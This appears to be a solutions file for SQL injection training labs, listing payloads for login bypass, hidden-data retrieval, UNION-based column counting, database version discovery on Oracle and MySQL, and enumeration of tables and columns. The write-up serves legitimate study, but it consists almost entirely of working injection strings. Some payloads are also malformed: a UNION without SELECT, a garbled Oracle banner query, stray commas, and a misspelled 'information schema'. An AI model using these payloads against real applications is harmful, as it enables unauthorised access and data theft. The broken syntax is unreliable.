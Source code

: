 # Solutions for SQL Injection Vuln Labs

1. SQL injection vulnerability in WHERE clause allowing retrieval of hidden data

   - **Purpose** : Vulnerability is in the product filter by category.
   - **Payload**: `'+OR+1=1--`
   - **Description**: This payload will return all the data from the database because the WHERE clause will always be true.

2. SQL injection vulnerability allowing login bypass

   - **Purpose** : Vulnerability is in the login form.
   - **Payload**: `'+OR+1=1--`
   - **Description**: This payload will always return to true with everything in the query after -- will be commented. Thus logging in as the first user in the database i.e. admin.

3. SQLi attack displaying the no. of columns and then the version of database in oracle.

   - **Purpose** : Vulnerability is in the category filter.
   - **Payload**: `'+UNION+NULL,NULL+FROM+products--`
   - **Description**: This payload will return the number of columns in the database. In this case, it is 2.

   - **Payload**: `'+UNION+BANNER+NULL,NULL+FROM+dual--`
   - **Description**: This payload will return the version of the database. In this case, it is Oracle 11g.

4. SQLi attack displaying the no. of columns and then the version of database in MySQL and Microsoft.

   - **Purpose** : Vulnerability is in the category filter.
   - **Payload**: `'+UNION+SELECT+NULL,NULL#`
   - **Description**: This payload will return the number of columns in the database. In this case, it is 2. In Mysql the comment is represented by # instead of --.

   - **Payload**: `'+UNION+SELECT+@@version,+NULL#`
   - **Description**: This payload will return the version of the database. In this case, it is MySQL 5.0.12.

5. SQLi attack, listing the database contents on non-oracle database

    - The lab contains vulnerability in product filter category. 

    - To find the number of columns in the database perform test like this :

        - `'+UNION+SELECT+NULL,NULL#`
        - This test is for 2 columns, put 1,2,3 .. null in the query to check for these no. of columns.

        - If the app returns 200 then it is successful.

    - To get all tables in the database, use this command :

        - `'UNION+SELECT+table_name,+NULL,+FROM+information+schema.tables--`

    - To get the columns of the table use the command :

        - `'UNION+SELECT+column_name,+NULL,+FROM+information+schema.columns+WHERE+table_name='table_name'--`